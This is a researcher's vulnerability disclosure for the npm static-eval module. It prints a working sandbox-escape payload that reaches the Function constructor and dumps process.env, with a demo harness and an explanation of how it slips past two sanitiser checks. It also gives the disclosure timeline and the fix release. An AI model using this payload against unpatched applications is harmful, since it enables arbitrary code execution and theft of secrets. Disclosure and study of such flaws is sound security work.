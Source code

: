 Github: https://github.com/browserify/static-eval

Npm: https://www.npmjs.com/package/static-eval

The static-eval module is used to evaluate statically-analyzable expressions

Matt Austin has found the first sandbox escape vulnerability in the module1, the patch he proposed was bypassed later by Matías Lang 2, Matías's technique relied on the knowledge of a variable name that is passed to Static-eval "vars" variable, and he proposed a patch that protects against his technique. I have found a new exploitation technique that bypasses Matt's patch and doesn't rely on using variable names passed to the "vars" variable which make it more dangerous.

The payload
----------
```
 #nodejs eval.js '(function myTag(y){return ""[!y?"__proto__":"constructor"][y]})("constructor")("console.log(process.env)")()'
 #cat eval.js 
 var evaluate = require('static-eval'); 
 var parse = require('esprima').parse; 
 var src = process.argv[2]; 
 var ast = parse(src).body[0].expression; 
 console.log(evaluate(ast))
```
![Alt text](run.PNG?raw=true)

Restriction - 1
--------------
```
 else if (node.type === 'MemberExpression') { 
 var obj = walk(node.object); 
 // do not allow access to methods on Function 
 if((obj === FAIL) || (typeof obj == 'function')){ 
 return FAIL; 
 }
```
The above check makes sure that the user input doesn't call a function method, this will protect against normal payloads like:
```
"".constructor.constructor
```
because typeof ```"".constructor == 'function'```.

Restriction - 2
----------------
```
for(var i=0; i<node.params.length; i++){ 
 var key = node.params[i]; 
 if(key.type == 'Identifier'){ 
 vars[key.name] = null; 
 } 
 else return FAIL; 
 }
```
If the user input contains a function definition “FunctionExpression”, Static-eval will set the value for all the function arguments to null during the AST parsing, however when the function is being executed in runtime its arguments will receive their values from the call statement

Bypassing the restrictions
------------------------
I created a payload that will trick the first restriction by providing a fake object of type "object" during the AST parsing and provide the correct object of type function during the runtime.

**during the AST parsing:**
```
y=null 
""[!y?"__proto__":"constructor"] ===evaluate===> ""["__proto__"] ===> which has typeof = "object" ===> restrictions bypassed :)
```
**during the runtime:**
```
y="constructor" 
""[!y?"__proto__":"constructor"] ===evaluate===> ""["constructor"] ===> access gained to constructor function
```
Timeline
-----------
The Issue was reported to NPM on 7-Oct-2019
Fixed on v2.0.3 ```https://github.com/browserify/static-eval/releases/tag/v2.0.3```

References
---------
1 https://maustin.net/articles/2017-10/static_eval
2 https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/


